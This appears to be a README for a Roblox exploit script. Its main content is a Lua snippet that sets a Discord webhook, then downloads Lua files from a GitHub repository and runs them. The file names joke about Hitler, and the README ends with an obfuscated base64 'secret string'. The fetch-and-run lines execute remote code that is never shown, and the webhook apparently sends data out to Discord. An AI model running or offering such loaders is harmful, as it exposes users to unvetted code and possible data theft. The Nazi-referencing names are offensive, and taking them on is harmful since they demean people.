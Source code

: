 # THIS IS ALL OPEN SOURCED!!!

## The Script
```
-- Discord Webhook URL
getgenv().DiscordWebhook = "" -- Put your discord webhook url here
getgenv().EmbedColor = "" -- Put the Embed Color here (eg. 0x00FFFF)

-- Loadstrings
loadstring(game:HttpGet("https://raw.githubusercontent.com/Endeictic/Scriptzzb/main/Ganterub.lua"))()
--loadstring(game:HttpGet("https://raw.githubusercontent.com/Endeictic/Scriptzzb/main/Adolf-AustrianPainter.lua"))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/Endeictic/Scriptzzb/main/Adolf-AustralianPainter.lua"))()
```
# Super secret string
Vm1wSmQwMVdXWGhXV0d4VFlrZG9XVmxVVG05WFZsVjNWbTFHVmxac2NFZFdWM1JQWVdzeGMxTnJiRlZpUjFGNlZVWkZPVkJSUFQwPQ== <-- very secret string

fuRifKXqOL0ltne <-- real accurate string (is it? is it not? YOU DECIDE!!)
